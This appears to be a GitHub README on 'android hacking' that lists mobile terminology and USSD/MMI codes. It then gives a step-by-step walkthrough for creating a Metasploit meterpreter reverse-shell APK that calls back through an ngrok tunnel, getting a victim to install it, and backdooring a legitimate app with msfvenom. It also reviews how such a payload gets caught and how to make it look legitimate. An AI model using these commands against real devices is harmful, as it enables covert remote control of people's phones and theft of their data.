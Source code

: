 # android-hacking



# ANDROID TECHNOLOGY

## TERMINOLOGY

- USSD
```bash
# Unstructured Supplementary Service Data)
- Used by GSM,smartphones... Used to communicate with mobile operator network
- Hep to access some phone features
```

- MMI code
```bash
# Man-Machine Interface code,
- A string of numbers or letters that instructs your device to carry out certain tasks
```

- GSM 
```bash
# Global System for Mobile Communications)
```

- IMEI
```bash
# International Mobile Equipment Identity
```

# USSD codes

- [USSD codes](https://www.maketecheasier.com/android-ussd-secret-security-codes/)
- `*#06#` Used to Get IMEI number of your device 
- `*#07#` Check SAR level # Specific absorption rate (`1.6W/kg`)
- `*#*#225#*#*` Display calenda storage data
- `*#*#4636#*#*` View Smartphone Battery, WLAN, and Other Inf
- `*31#` Turn Off Caller ID-- Enable/disable outgoing caller ID
- `*43#` Enable call waiting service. `#43#` To disable
-  `*#67#` Check Call Forwarding
-  `*57` Activate call tracing service
-  `**21*NUMBER#` Call forward code
-  `##002#` Call forward erasal code

- [x] Below codes not yet tested
- `*#*#1472365#*#*` GPS System check (strength and efficiency)
- `*#*#2664#*#*` Touch screen Test
- `#*#232339#*#*` Test Wi-Fi
- `*#*#197328640#*#*` Enable service mode
- `*#*#4986*2650468#*#*` View firmware Information
- ` *#*#34971539#*#*` View Camera Information
-  `*#3282*727336*#` Check Storage and System Details



## Using malicios APK file

1. Getting public ip with ngrok
          
           ./ngrok tcp 1234
           
2. Generating with msfvenom  
         
          msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=12126 R > malicious.apk
3. Using msfconsole to listen to the connection from our payload
    
       use exploit/multi/handler
       set payload android/meterpreter/reverse_tcp
   
   Then
   
      `Now we need to send the apk to the victim and getting them to install and launch`
      
 #### Disadvantages of this method
  1. Requires either access to the victim’s phone or social engineering to get the victim to install and launch the malicious apk.
  2. The generated apk file does not look legitimate. It’s only a few KBs and doesn’t do anything when clicked on. The victim might either uninstall it right away or not install it at all.
  3. Might require a lot of time and effort to make the apk file look realistic i.e. changing the logo, adding some functionality.
  4. Such an apk file is easily classified as dangerous by any anti-virus installed on the victim’s phone.
  5. Numerous warnings from the mobile device and Google Play Store that installing apps from unknown sources is dangerous. This might deter the victim from proceeding.
  6. The connection we get back is not persistent. Once the phone reboots, loses internet connection, or the user clears all the running apps in the background, we lose our connection and the only way to get it back again is if the user clicks on the app icon again.
  
  ## Injecting a Malicious Payload on a Legitimate Android App
  
   * you can download legitimate apk files. Kindly note that not all apk files can easily be exploited in this way. Some of them have protections in place
    Then 
    
        msfvenom -x CameraSample.apk -p android/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=12492 -o CameraSample_backdoored.apk
    

